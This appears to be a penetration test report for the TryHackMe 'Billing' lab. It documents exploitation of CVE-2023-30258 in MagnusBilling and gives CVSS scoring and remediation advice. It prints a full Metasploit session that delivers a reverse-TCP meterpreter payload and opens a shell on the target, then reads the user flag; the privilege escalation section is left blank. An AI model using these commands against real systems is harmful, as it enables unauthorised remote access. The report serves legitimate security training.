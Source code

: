 # Penetration Test Report  
**Engagement:** TryHackMe - Billing  
**Date:** September 2025   
**Tester:** Colin S    

---

## Summary 
A penetration test was conducted against the TryHackMe Billing environment to assess the security of the deployed MagnusBilling application and underlying system. The assessment identified two high-impact vulnerabilities: An unauthenticated command injection in MagnusBilling permitted remote execution of arbitrary commands and local privilege escalation that enabled full root compromise.

Immediate recommendations are to update the MagnusBilling application to a patched version. User privileges should be reviewed to ensure low-privileged users cannot perform high-privilege actions on the host system.   
 
## Vulnerabilities  

### 1. Unauthenticated command injection
**CVSS v4.0 Base Score:** 9.3 (Critical)  
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:L/SI:L/SA:L  

**Summary:** An unauthenticated command injection in MagnusBilling permitted remote execution of arbitrary commands. This vulnerability can be exploited by attackers to execute arbitrary commands on the target system.  

**Background:** The current version of MagnusBilling in use by the organisation is vulnerable to CVE-2023-30258, which allows attackers to execute unauthenticated command injection attacks. As this is a known vulnerability multiple exploits exist online which can be used by attackers to quickly gain access to that target system. Once attackers gain access, they can remotely execute commands to perform a range of harmful actions.    

**Technical details & Evidence:**  The target host was exploited using Metasploit.
```bash
msfconsole
msf > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258 
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > show options
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.201.117.117
RHOSTS => 10.201.117.117
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 10.4.12.97
LHOST => 10.4.12.97
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
[*] Started reverse TCP handler on 10.4.12.97:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.201.117.117:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.54 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.201.117.117
[+] Deleted lXNeTcRvjvlN.php
[*] Meterpreter session 1 opened (10.4.12.97:4444 -> 10.201.117.117:38054) at 2025-09-23 21:08:15 +1000

meterpreter >
```
![Access - metasploit.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Billing/Images/Access%20-%20metasploit.png)  

Once initial access had been gained to the target the logged in user was able to navigate the file system and retrieve secrets.  
```bash
meterpreter > shell
Process 3384 created.
Channel 0 created.

whoami
asterisk
pwd
/var/www/html/mbilling/lib/icepay

cd /home
ls
debian
magnus
ssm-user
cd magnus
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
user.txt
cat user.txt
```
![flag1 - flag.png](https://github.com/Schenkee/TryHackMe-Guides/blob/main/Billing/Images/Flag1%20-%20flag.png)  

**Impact:** An unauthenticated remote attacker can achieve arbitrary command execution as the user ```asterisk```; the absence of authentication makes this vulnerability critical. If an attacker exploits this vulnerability this enables information disclosure, persistence, and local privilege escalation attempts, which can significantly impact the organisation's business operations.    

**Remediation Advice:** It is strongly recommended to update MagnusBilling to the vendor-fixed release or apply the official patch immediately and block access to the vulnerable endpoint until updated. Rotate any credentials that could have been exposed and monitor web logs for exploitation indicators.  

---

### 2. 
**CVSS v4.0 Base Score:**


**Summary:**

**Background:** 

**Technical details & Evidence:** 

**Impact:** 

**Remediation Advice:** 

---
## Appendices  
[CVSS 4.0](https://www.first.org/cvss/calculator/4-0)  
[CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)  
[CVE-2023-30258 Exploit](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)  
[Fail2ban Exploit](https://packetstorm.news/files/189989)

